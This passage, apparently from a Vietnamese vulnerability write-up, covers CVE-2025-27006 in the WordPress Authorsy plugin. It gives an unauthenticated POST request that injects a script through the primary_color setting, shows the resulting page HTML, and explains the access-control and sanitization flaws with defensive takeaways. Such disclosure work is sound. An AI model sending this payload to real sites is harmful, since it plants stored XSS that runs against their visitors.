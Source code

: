 👉 Như vậy, ta có thể thay đối giá trị của CSS chứa XSS payload trong database mà không cần đặc quyền gì cả => CSS được thêm vào `<head>` chứa mã độc

## Exploit
### Detect XSS
Gửi **POST** request đến `/wp-json/authorsy/v1/settings` với XSS payload

```http
POST /wp-json/authorsy/v1/settings HTTP/1.1
Host: localhost

Content-Type: application/json

{
"primary_color":"</style><script>alert(document.domain)</script><style>"
}
```

Ta đóng thẻ `<style>` (CSS trong head) và inject thêm thẻ `<script>` chứa XSS payload.

Truy cập một trang bất kỳ 

![XSS](images/posts/2025-09-17-CVE-2025-27006/xss.png)

👉 XSS thành công, **inspect** để xem code được thay đổi như nào

```html
<style>
    :root { 
        --ea-color-main: </style><script>alert(document.domain)</script><style>;  
    } 
</style>
```

## Conclusion
Lỗ hổng `CVE-2025-27006` trong plugin **Authorsy <= 1.0.5** là một ví dụ điển hình về **Broken Access Control** kết hợp với **XSS**. Nguyên nhân chính là:
1. **REST API** không kiểm soát quyền truy cập: bất kỳ user nào cũng có thể gọi `/wp-json/authorsy/v1/settings` để thay đổi các option.
2. **CSS** tùy chỉnh chưa được **sanitize**: giá trị CSS được chèn trực tiếp vào `<style>` trong `<head>`, cho phép kẻ tấn công inject payload `<script>` thông qua CSS.
Nonce không được xử lý đúng: **verify_nonce** chỉ trả về **WP_Error** mà không ngăn code thực thi, khiến việc kiểm tra bảo mật gần như vô hiệu.

**Key takeaways**:
- **REST API** cần kiểm soát quyền: luôn sử dụng `permission_callback` hợp lý để ngăn **Broken Access Control**.
- Sanitize dữ liệu người dùng trước khi render trong HTML/CSS/JS để phòng **XSS**.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[ WordPress Authorsy Plugin <= 1.0.5 is vulnerable to Cross Site Scripting (XSS) ](https://patchstack.com/database/wordpress/plugin/authorsy/vulnerability/wordpress-authorsy-plugin-1-0-5-cross-site-scripting-xss-vulnerability)
